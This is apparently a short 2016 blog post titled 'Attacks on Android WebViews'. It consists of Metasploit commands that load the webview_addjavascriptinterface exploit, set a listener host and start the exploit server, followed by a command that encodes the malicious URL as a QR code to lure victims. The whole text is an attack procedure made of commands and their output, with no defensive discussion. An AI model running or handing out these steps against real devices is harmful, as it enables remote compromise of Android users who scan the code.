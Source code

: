 ```yaml
---
title: Attacks on Android WebViews
date: 2016-10-01 01:12:36
tags: Android
---
```


### 0x01 Metasploit
```
> use exploit/android/browser/webview_addjavascriptinterface
> set LHOST 192.168.0.110
> exploit
[*] Using URL: http://0.0.0.0:8080/xl7dev
[*] Local IP: http://192.168.0.110:8080/xl7dev
[*] Server started.
```

### 0x02 QR Code Attack
> qr "http://192.168.0.110:8080/xl7dev"